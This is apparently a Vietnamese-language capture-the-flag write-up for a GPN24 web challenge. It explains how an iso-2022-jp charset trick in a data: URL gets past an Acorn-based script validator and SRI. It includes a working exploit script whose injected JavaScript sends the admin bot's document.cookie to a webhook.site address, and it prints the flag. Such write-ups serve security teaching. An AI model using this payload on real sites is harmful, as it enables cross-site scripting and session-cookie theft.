


### Check source code

Trong source có đoạn:

```js
async function runScript(url) {
  const txt = await fetch(url).then(r => r.text());

  if (!isRecipeAssignmentProgram(txt)) {
    throw new Error("invalid recipe assignment program");
  }

  const s = document.createElement("script");
  s.src = url;

  if (!isScriptStatic(url)) {
    s.integrity = `sha256-${await sha256(txt)}`;
  }

  document.head.appendChild(s);
}
```

Điều kiện kiểm tra bằng `Acorn` yêu cầu source chỉ được là một assignment đơn giản:

```js
recipe = "..."
```

Hoặc vế phải là một string literal/template literal không có expression.

### Vulnerability

Lỗi nằm ở việc ứng dụng dùng hai parser/decoder khác nhau cho cùng một URL:

1. `fetch(url).then(r => r.text())` đọc nội dung để kiểm tra bằng Acorn.
2. `<script src=url>` lại để browser tự load và execute script theo MIME/charset của resource.

Với `data:` URL, hàm `isScriptStatic()` coi đây là static protocol nên không gắn SRI integrity:

```js
function isScriptStatic(src) {
  let parsed = new URL(src, location.href);
  let proto = parsed.protocol.toLowerCase().replace(":", "");

  const staticProtos = ["data", "blob", "javascript", "mailto", "resource", "ssh", "tel"];

  if (staticProtos.includes(proto)) {
    return true;
  }
}
```

Do đó ta có thể dùng `data:text/javascript;charset=iso-2022-jp,...` để tạo sự khác biệt giữa nội dung được `fetch().text()` kiểm tra và nội dung được browser thực thi khi load script.

### Exploit idea

Adminbot set flag trong cookie rồi visit URL do mình cung cấp. Vì bot chỉ accept URL bắt đầu bằng:

```text
http://localhost:1337
```

nên target cuối cùng sẽ có dạng:

```text
http://localhost:1337/?url=<data-url-payload>
```

Khi script chạy trong origin `localhost:1337`, nó đọc được `document.cookie` và gửi về webhook.

### Exploit script

```bash
CHALL='https://boiled-meatball-stuffed-with-braised-truffle-oil-0b6i.gpn24.ctf.kitctf.de'

TARGET=$(python3 - <<'PY'
from urllib.parse import quote, quote_from_bytes

WEBHOOK = "https://webhook.site/8eafb00c-ff64-4eaa-a987-16bbabf9b1f3"

src = (
    b'recipe="'
    + b'\x1b(J'
    + b'\\";location=\''
    + WEBHOOK.encode()
    + b'?c=\'+encodeURIComponent(document.cookie)//"'
)

data_url = "data:text/javascript;charset=iso-2022-jp," + quote_from_bytes(src)
target = "http://localhost:1337/?url=" + quote(data_url, safe="")
print(target)
PY
)

echo "$TARGET"

curl -s -G "$CHALL/bot/run" --data-urlencode "url=$TARGET"
```

### Result

Sau khi gửi URL cho bot, webhook nhận được request chứa cookie:



### Flag

```text
GPNCTF{uR1_PaR5ing_IS_harD_3VEn_f0r_broWsERS}
```